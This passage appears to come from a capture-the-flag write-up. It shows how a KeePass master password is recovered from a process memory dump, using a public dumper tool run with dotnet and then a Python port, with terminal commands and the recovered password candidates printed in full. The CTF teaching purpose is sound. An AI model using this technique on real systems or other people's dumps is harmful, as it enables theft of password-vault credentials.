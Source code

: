 The `-v $(pwd):/data` will mount the current directory (where the dump is) into the container in `/data`. I’ll clone the exploit and go into that directory:

```
root@8af1c7b7c189:/# git clone https://github.com/vdohney/keepass-password-dumper
Cloning into 'keepass-password-dumper'...
remote: Enumerating objects: 111, done.
remote: Counting objects: 100% (111/111), done.
remote: Compressing objects: 100% (79/79), done.
remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
Receiving objects: 100% (111/111), 200.08 KiB | 4.55 MiB/s, done.
Resolving deltas: 100% (61/61), done.
root@8af1c7b7c189:/# cd keepass-password-dumper/
root@8af1c7b7c189:/keepass-password-dumper#

```

Now the exploit runs fine:

```
root@8af1c7b7c189:/keepass-password-dumper# dotnet run /data/KeePassDumpFull.dmp
...[snip]...
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

```

That’s the same output as above.

#### Exploit with Python

Since the release of Keeper, many Python versions of this exploit have come out. I had a hard time finding one that worked as nicely as the DotNet version. For example, [this one](https://github.com/z-jxy/keepass_dump) will get most of the password:

```
oxdf@hacky$ python keepass_dump/keepass_dump.py -f KeePassDumpFull.dmp
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:
```